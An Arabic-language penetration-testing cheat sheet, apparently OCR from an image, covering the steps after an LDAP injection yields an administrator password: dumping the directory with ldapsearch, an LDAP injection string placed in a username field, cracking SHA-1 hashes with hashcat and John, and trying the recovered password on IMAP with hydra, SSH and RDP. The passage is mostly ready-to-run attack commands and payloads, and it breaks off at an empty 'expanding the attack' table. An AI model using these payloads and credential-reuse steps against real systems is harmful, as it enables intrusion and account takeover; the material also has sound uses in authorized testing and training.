 #### د. استخراج كائنات LDAP إضافية
- **الهدف**: استخدام الحساب المخترق للوصول إلى خادم LDAP مباشرة أو استخراج كائنات أخرى.
- **كيف يعمل**:
  - إذا سمح الحساب بالوصول إلى أدوات إدارة LDAP (مثل phpLDAPadmin)، استخدمها لاستخراج بيانات.
  - استخدم أدوات مثل `ldapsearch` إذا كان لديك وصول إلى الخادم.
- **متى يُستخدم؟**:
  - عندما يمنحك الحساب وصولًا إلى واجهة إدارة LDAP.
- **الأوامر/الإجراءات**:
  - استخدم `ldapsearch`:
    ```
    ldapsearch -x -H ldap://target_ip -D "cn=administrator,dc=domain,dc=com" -w MYKE -b "dc=domain,dc=com" "(objectClass=*)"
    ```
  - تصفح واجهة مثل `https://ldap.domain.com` باستخدام `administrator:MYKE`.


---

## ملخص جميع المحاولات
### تأكيد كلمة المرور المستخلصة
| **الغرض**                     | **الإدخال/الأمر**                                                                 | **الاستعلام الناتج/الإجراء**                                                                 | **متى يُستخدم؟**                                                                 |
|-------------------------------|-----------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------|
| اختبار في نموذج تسجيل الدخول | Username: `administrator`, Password: `MYKE`                                        | `POST /login` with `username=administrator&password=MYKE`                                   | بعد استخلاص كلمة المرور (مثل `MYKE`).                                           |
| اختبار باستخدام استعلام LDAP | Username: `administrator*)(&(uid=administrator)(userPassword=MYKE))`               | `(&(uid=administrator*)(&(uid=administrator)(userPassword=MYKE))(userPassword=anything))`    | للتحقق ضمن إطار LDAP Injection.                                                 |
| أتمتة الاختبار                | `python3 test_password.py`                                                        | Script tests `username=administrator`, `password=MYKE`                                      | عند وجود عدة كلمات مرور للاختبار.                                               |

### كسر التشفير للقيم المشفرة
| **الغرض**                     | **الإدخال/الأمر**                                                                 | **الإجراء**                                                                                 | **متى يُستخدم؟**                                                                 |
|-------------------------------|-----------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------|
| تحديد نوع التشفير            | `hashid '{SHA}2cM6...'`                                                           | Identifies hash type (e.g., SHA-1)                                                          | عندما تكون القيمة مشفرة.                                                        |
| كسر باستخدام Hashcat         | `hashcat -m 100 hash.txt /path/to/rockyou.txt`                                    | Cracks SHA-1 hash using `rockyou.txt`                                                      | لاستخلاص النص العادي من هاش SHA-1.                                              |
| كسر باستخدام John            | `john --format=raw-sha1 hash.txt`                                                 | Cracks SHA-1 hash                                                                          | كبديل لـ Hashcat.                                                                |

### اختبار كلمة المرور في خدمات أخرى
| **الغرض**                     | **الإدخال/الأمر**                                                                 | **الإجراء**                                                                                 | **متى يُستخدم؟**                                                                 |
|-------------------------------|-----------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------|
| اختبار في البريد الإلكتروني  | `hydra -l administrator@domain.com -p MYKE imap://mail.domain.com`                 | Tests credentials on IMAP server                                                            | عند وجود خادم بريد.                                                              |
| اختبار في SSH                | `ssh administrator@target_ip` with `MYKE`                                         | Attempts SSH login                                                                         | عند وجود خادم SSH.                                                               |
| اختبار في RDP                | `mstsc` with `target_ip`, `administrator`, `MYKE`                                  | Attempts RDP login                                                                         | عند وجود خادم RDP.                                                               |
| أتمتة اختبار الخدمات         | `python3 test_services.py`                                                        | Tests Web, SSH, IMAP logins                                                                | لاختبار خدمات متعددة بسرعة.                                                     |

### توسيع الهجوم
| **الغرض**                     | **الإدخال/الأمر**                                                                 | **الإجراء**                                                                                 | **متى يُستخدم؟**                                                                 |